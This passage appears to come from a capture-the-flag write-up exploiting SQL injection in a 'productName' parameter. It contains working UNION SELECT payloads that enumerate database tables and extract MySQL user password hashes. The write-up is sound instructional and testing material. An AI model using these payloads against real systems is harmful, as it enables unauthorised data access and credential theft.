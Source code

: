 Since warehouse is the only non-default database, I'll look at it's
tables with
`productName=Asus' union select table_schema,table_name,3,4,5,6 from information_schema.tables where table_schema != 'mysql' AND table_schema != 'information_schema'#`
(I'll hit Render in Burp to see it as a nicely formatted table):

![](/img/image-20191125060219458.png)

I did a bit more digging, but nothing interesting in those tables.

I can grab the internal password hashes with
`productName=Asus' UNION select host,user,password,4,5,6 from mysql.user#`:

![](/img/image-20191125054640263.png)

